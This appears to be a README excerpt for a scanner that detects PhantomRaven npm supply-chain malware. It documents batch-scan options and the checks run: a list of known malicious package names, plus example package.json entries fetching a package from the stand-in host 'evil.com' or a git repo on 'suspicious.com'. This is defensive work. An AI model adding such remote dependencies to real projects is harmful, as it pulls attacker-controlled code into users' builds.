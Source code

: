 ### Batch Mode (Multiple Repositories)

```bash
./phantomraven-scan.sh --batch [OPTIONS] <directory|list_file>

Options:
  -w, --workers N      Number of parallel workers (default: 4)
  -f, --format FORMAT  Output format: text, json, csv
  -o, --output FILE    Save results to file
  --summary-only       Show only final summary
  -v, --verbose        Show detailed output for each repo

Examples:
  # Scan all repos in directory
  ./phantomraven-scan.sh --batch ~/projects

  # Fast scan with 16 workers
  ./phantomraven-scan.sh --batch -w 16 ~/workspace

  # Generate JSON report
  ./phantomraven-scan.sh --batch -f json -o report.json ~/repos

  # Scan from list file
  ./phantomraven-scan.sh --batch repos.txt

  # Quick summary
  ./phantomraven-scan.sh --batch --summary-only ~/workspace
```

## 🔍 What Gets Checked

### 1. Known Malicious Packages (126)
- `unused-imports`
- `eslint-comments`
- `transform-react-remove-prop-types`
- `crowdstrike`
- And 122 more from the PhantomRaven campaign

### 2. Remote Dynamic Dependencies (RDD)
HTTP/HTTPS URLs in dependencies:
```json
{
  "dependencies": {
    "pkg": "http://evil.com/package.tgz"
  }
}
```

### 3. Suspicious Git Dependencies
Git URLs to unknown hosts (not GitHub/GitLab/Bitbucket):
```json
{
  "dependencies": {
    "pkg": "git+https://suspicious.com/repo.git"
  }
}
```
